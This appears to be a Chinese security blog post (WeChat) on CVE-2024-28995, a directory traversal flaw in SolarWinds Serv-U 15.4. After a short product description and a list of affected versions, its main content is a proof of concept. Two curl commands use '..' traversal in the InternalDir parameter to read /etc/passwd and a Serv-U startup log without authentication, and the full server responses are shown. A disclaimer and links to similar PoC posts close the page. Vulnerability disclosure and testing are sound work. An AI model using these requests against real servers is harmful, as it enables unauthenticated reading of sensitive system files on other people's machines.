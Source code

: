 #  CVE-2024-28995｜SolarWinds Serv-U任意文件下载漏洞（POC）   
alicy  信安百科   2024-06-14 09:00  
  
**0x00 前言**  
  
  
SolarWinds Serv-U FTP Server是美国SolarWinds公司的一套FTP和MFT文件传输软件。  
  
  
ServU FTP Server官方版是专为中小型企业设计的安全文件传输解决方案。ServU文件服务器支持多种协议，包括FTP、FTPS、SFTP、HTTP和HTTPS，在IPv4和IPv6网络上实现可靠的文件传输。其移动设备友好的界面使用户能够通过iOS和Android设备进行文件传输，并利用SSL/TLS协议加密文件，确保传输过程安全可靠。  
  
  
总体而言，Serv-U为用户提供了灵活、安全且高效的文件传输平台，轻松管理文件传输的各个方面。  
  
  
  
**0x01 漏洞描述**  
  
  
Serv-U文件传输服务器存在严重的目录遍历漏洞，允许未经身份验证的攻击者读取服务器上的敏感文件。  
  
  
  
**0x02 CVE编号**  
  
  
CVE-2024-28995  
  
  
  
**0x03 影响版本**  
  
  
Serv-U FTP Server 15.4  
  
Serv-U Gateway 15.4  
  
Serv-U MFT Server 15.4  
  
  
  
**0x04 漏洞详情**  
  
  
POC：  
```
curl -i -k --path-as-is https://192.168.86.43/?InternalDir=\..\..\..\..\etc^&InternalFile=passwd

HTTP/1.0 200 OK
Server: Serv-U/15.4.2.126
Date: Tue, 11 Jun 2024 14:55:28 GMT
Accept-Encoding: deflate
X-Permitted-Cross-Domain-Policies: none
Connection: close
X-Frame-Options: sameorigin
X-Same-Domain: 1
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Referrer-Policy: same-origin
Strict-Transport-Security: max-age=31536000; includeSubDomains
Last-Modified: Tue, 16 Jan 2024 10:58:11 GMT
Expires: -1
Cache-Control: must-revalidate, private
Content-Length: 3017

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```  
  
```
curl -i -k --path-as-is http://192.168.86.68/?InternalDir=/../../../../ProgramData/RhinoSoft/Serv-U/^&InternalFile=Serv-U-StartupLog.txt

HTTP/1.0 200 OK
Server: Serv-U/15.4.2.126
Date: Tue, 11 Jun 2024 13:46:06 GMT
Accept-Encoding: deflate
X-Permitted-Cross-Domain-Policies: none
Connection: close
X-Frame-Options: sameorigin
X-Same-Domain: 1
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Referrer-Policy: same-origin
Strict-Transport-Security: max-age=31536000; includeSubDomains
Content-Type: text/plain
Pragma: no-cache
Cache-Control: no-cache,no-store,max-age=0,must-revalidate
Expires: -1
Set-Cookie: CsrfToken=; expires=Thu, 01-Jan-1970 00:00:01 GMT; SameSite=Strict; path=/;  httponly
Content-Length: 2119

[01] Tue 11Jun24 01:28:15 - Serv-U File Server:{B30A1319-9C51-8241-728C-F6FCD0C1BFD2} (64-bit) - Version 15.4 (15.4.2.126) - (C) 2024 SolarWinds Worldwide, LLC.  All rights reserved.
[01] Tue 11Jun24 01:28:15 - Build Date: Thursday 21 March 2024 09:33
[01] Tue 11Jun24 01:28:15 - Operating System: Windows Server 2012 64-bit; Version: 6.2.9200
[01] Tue 11Jun24 01:28:15 - Loaded graphics library.
[01] Tue 11Jun24 01:28:15 - Loaded ODBC database library.
[01] Tue 11Jun24 01:28:15 - Loaded SSL/TLS libraries.
[01] Tue 11Jun24 01:28:15 - Loaded SQLite library.
[01] Tue 11Jun24 01:28:15 - FIPS 140-2 mode is OFF.
[01] Tue 11Jun24 01:28:15 - Valid Server Identity found
[01] Tue 11Jun24 01:28:15 - WinSock Version 2.2 initialized.
[01] Tue 11Jun24 01:28:15 - HTTP server listening on port number 43958, IP 127.0.0.1
[01] Tue 11Jun24 01:28:15 - HTTP server listening on port number 43958, IP ::1
[01] Tue 11Jun24 01:33:46 - FTP server listening on port number 21, IP 0.0.0.0 (192.168.86.68, 127.0.0.1)
[01] Tue 11Jun24 01:33:46 - FTPS server listening on port number 990, IP 0.0.0.0 (192.168.86.68, 127.0.0.1)
[01] Tue 11Jun24 01:33:46 - SFTP (SSH) server listening on port number 22, IP 0.0.0.0 (192.168.86.68, 127.0.0.1)
[01] Tue 11Jun24 01:33:46 - HTTP server listening on port number 80, IP 0.0.0.0 (192.168.86.68, 127.0.0.1)
[01] Tue 11Jun24 01:33:46 - HTTPS server listening on port number 443, IP 0.0.0.0 (192.168.86.68, 127.0.0.1)
[01] Tue 11Jun24 01:33:46 - FTP server listening on port number 21, IP :: (fd00::f7d7:c17c:722:4a8f, fe80::201b:ef99:f597:397%5, ::1)
[01] Tue 11Jun24 01:33:46 - FTPS server listening on port number 990, IP :: (fd00::f7d7:c17c:722:4a8f, fe80::201b:ef99:f597:397%5, ::1)
[01] Tue 11Jun24 01:33:46 - SFTP (SSH) server listening on port number 22, IP :: (fd00::f7d7:c17c:722:4a8f, fe80::201b:ef99:f597:397%5, ::1)
[01] Tue 11Jun24 01:33:46 - HTTP server listening on port number 80, IP :: (fd00::f7d7:c17c:722:4a8f, fe80::201b:ef99:f597:397%5, ::1)
[01] Tue 11Jun24 01:33:46 - HTTPS server listening on port number 443, IP :: (fd00::f7d7:c17c:722:4a8f, fe80::201b:ef99:f597:397%5, ::1)
```  
  
  
**0x05 参考链接**  
  
  
https://www.solarwinds.com/trust-center/security-advisories/cve-2024-28995  
  
  
  
  
推荐阅读：  
  
  
[CVE-2024-4577｜PHP CGI Windows平台远程代码执行漏洞（POC）](http://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485411&idx=1&sn=e3c47dc7c7dd3cded51cefa46511183b&chksm=cea96e3af9dee72cfb2e7d3df819eb51ba078d21acc7fd473fb477c6efecb99acc6d108a7044&scene=21#wechat_redirect)  
  
  
  
[CVE-2024-24919｜CheckPoint Gateway任意文件读取漏洞（POC）](http://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485375&idx=1&sn=65e8515e23d1c84030d976d50f2e9615&chksm=cea96e66f9dee770a8a78a2b2b551a99a91b768f08464fd816b08dd7696894232b83923f8baa&scene=21#wechat_redirect)  
  
  
  
[CVE-2024-4985｜GitHub Enterprise Server身份验证绕过漏洞（POC）](http://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485351&idx=1&sn=43476287a5e8d12e56ff5f82b16417ed&chksm=cea96e7ef9dee768c9b7acf27dc5088b21493f1e5bde1dae0914bd45424895ef34022573ad96&scene=21#wechat_redirect)  
  
  
  
  
  
Ps：国内外安全热点分享，欢迎大家分享、转载，请保证文章的完整性。文章中出现敏感信息和侵权内容，请联系作者删除信息。信息安全任重道远，感谢您的支持![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6urTIficI8UhQibwpYWx4ic7Bk40AJlXrgx3icofWCbd5cbJFheld132R8exvlHnicn0AUjHLmVok4wV9qA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
！！！  
  
  
**本公众号的文章及工具仅提供学习参考，由于传播、利用此文档提供的信息而造成任何直接或间接的后果及损害，均由使用者本人负责,本公众号及文章作者不为此承担任何责任。**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6uqQ24S6worK6npevNP8p1uPc9jQeMAib2iaibBnibOzFaIbD0KlvsEtUAmL3xdbJJnWk74Y1KfBcIazzw/640?wx_fmt=png "")  
  
  
